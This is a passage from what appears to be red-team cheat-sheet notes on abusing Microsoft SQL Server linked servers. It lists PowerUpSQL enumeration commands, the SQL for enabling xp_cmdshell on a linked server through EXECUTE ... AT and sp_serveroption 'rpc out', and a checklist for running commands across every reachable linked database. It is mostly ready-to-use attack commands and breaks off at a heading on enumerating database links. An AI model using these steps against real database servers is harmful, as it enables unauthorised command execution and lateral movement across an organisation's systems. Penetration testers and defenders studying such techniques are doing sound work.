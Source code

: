 ```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

### <span style="color:#F1C232">4. Check impersonation rights (extra)</span>

```powershell
Invoke-SQLAudit -Verbose -Instance <instanceName>
```

# <span style="color:lightblue">MS-SQL Abuse - Part 2</span>

-   A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
-   In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
-   Database links work even across forest trusts.

### <span style="color:#F1C232">Execute commands on target server</span>
-   On the target server, either xp_cmdshell should be already enabled; or
-   If **rpcout** is enabled (disabled by default), `xp_cmdshell` can be enabled using: 

```console
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```
-   If **rpcout** is disabled but we are **sa**, it can be enabled with

```console
EXEC sp_serveroption 'LinkedServer', 'rpc out', 'true';
```

## <span style="color:lightgreen">Methodology/Steps</span>
+ [ ] 1. Check the SQL Server link
- [ ] 2. Keep note if you have link to any other database in **DatabaseLinkName**
- [ ] 3. If SysAdmin:0 means that we will not be allowed to enable **xp_cmdshell**
- [ ] 4. Keep on enumerating and check all the linked databases you have access to
- [ ] 5. Now we can try to execute commands through out all the linked databases found

## <span style="color:lightgreen">PowerUpSQL - Abusing the privileges</span>

### <span style="color:#F1C232">1. Enumerate SQL Server links</span>

```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

### <span style="color:#F1C232">2. Enumerate DB links</span>
